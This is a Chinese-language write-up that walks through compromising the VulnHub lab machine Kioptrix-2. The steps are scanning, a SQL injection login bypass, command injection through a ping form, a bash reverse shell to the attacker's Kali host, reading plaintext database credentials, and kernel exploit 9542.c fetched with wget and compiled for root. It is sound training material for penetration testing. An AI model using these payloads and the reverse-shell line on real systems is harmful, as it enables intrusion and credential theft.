# 前言

靶机：`kioptrix-2`，IP地址为`192.168.1.73`

攻击：`kali`，IP地址为`192.168.1.16`

都采用虚拟机，网卡为桥接模式

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过下方链接下载

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行



# 信息收集

## 使用nmap扫描端口

这里建议扫描常见端口即可，我尝试扫描全端口，结果导致目标靶机的`ip`地址消失



这里扫描完毕后，`IP`又不见了，哈哈哈哈哈哈哈哈哈，很好，再次重启，这里有点像是真实情况中的限制一样

## 网站信息探测

访问80端口，发现一个类似登录界面



页面源代码中发现这是一个`form`表单，并且交给`index.php`处理

# 漏洞利用

## sql注入

先不进行扫描，毕竟这里一上来就给登录，尝试万能密码等进行测试

```shell
test' or 1=1--+
test' or 1=1#
test' or '1'='1
```

测试发现`test' or 1=1#`可行，并且`username`和`password`两个`input`任意一个都可以

直接进入到另一个界面，这里说是`ping`，测试一下



## 命令执行

输入`127.0.0.1`，发现确实是执行`ping`，并且是跳转到`pingit.php`界面的



这可能存在命令注入，因为假设拼接上可以触发

```shell
#这两个是逻辑运算
127.0.0.1 || ls	#当第一个执行成功，后一个就不会执行
127.0.0.1 && ls #当第一个执行成功，后一个才会执行

#这两个就是常见的管道符和后台运行
127.0.0.1 | ls	#管道处理，前面结果交给后面
127.0.0.1 & ls	#后台执行，命令执行的同时继续在终端中输入其他命令
```

这里的效果只展示一个，至于其他的，动手去操作啊，操作

输入`127.0.0.1 | ls`



## 反弹shell

可以执行后面的命令，那么就好办了，这时候可以尝试反弹`shell`，或者查看文件等都行

不过最好是反弹`shell`，因为当有了`shell`后，可以执行很多

先在`kali`使用`nc`开启监听，`nv -lvvp 9999`

然后输入命令`127.0.0.1|bash -i >& /dev/tcp/192.168.1.16/9999 0>&1`并执行，这时候`kali`就会收到一个`shell`



# 内网收集

这时候，查看当前目录，发现有`index.php`，那么必须查看一下源代码，为什么？因为在`form`表单是交给其处理的，里面可能存在敏感文件的位置或者敏感信息

果然，查看就发现了连接`mysql`的`php`函数，`localhost`是主机地址，`john`是连接数据库的用户名，`hiroshima`是密码



发现连接数据库的用户名和密码，那么测试是否存在当前的用户`john`，也就是这是否是只用于数据库连接的，还是为了方便，采用主机的用户

```shell
ls -l /home
cat /etc/passwd | grep john
```



既然存在，那么测试是否一码多用，尝试进行`ssh`连接，不过这里进行`ssh`连接涉及到一些过时的密钥交换等，所以先在靶机内使用`su`切换进行测试，发现密码错误。



那么登录数据库进行查看数据库中的内容

```shell
mysql -ujohn -phiroshima

mysql> show databases;
mysql> use webapp
mysql> show tables;
mysql> select * from users;
```



连接数据库的用户名还在里面，这个我觉得可能是靶机用户的密码`66lajGGbla`，进行测试，还是失败



继续收集其他信息，使用`find`寻找具有SUID权限的文件，并无明显可利用的，有一个`sudo`但是测试后需要密码

收集操作系统等信息

```shell
uname -r
cat /etc/*release
cat /etc/issue
cat /etc/issue.bak
```



# 提权

在`kali`使用`searchsploit`搜索对应的版本漏洞，果然有一个

```shell
searchsploit centos 2.6.9
```



查看该脚本，发现其测试范围以及机器正好对应的上，并且在靶机上使用`gcc -v`发现安装了`gcc`



在`kali`开启一个`python`的简易`http`服务，然后靶机下载到`/tmp`目录

```shell
#在kali运行
python3 -m http.server 8888

#在靶机执行
wget http://192.168.1.16:8888/9542.c
```



进行编译，然后执行`exp`

```shell
gcc -o exp 9542.c
```




# 总结

该靶机主要考察以下几点：

1. 对于`sql`注入的初步了解
2. 对于命令执行的初步了解
3. 对于反弹`shell`的了解
4. 对于各种命令的基本使用
5. 对于内网收集的初步测试，提示收集内核版本和操作系统版本，并且存在漏洞的危害是极大的
6. 对于漏洞库要会使用，并且会复现历史漏洞

这里查看`/etc/issue`时，说是有多种方式，啧，我没有找到，唉，先这样，回头再深入测试


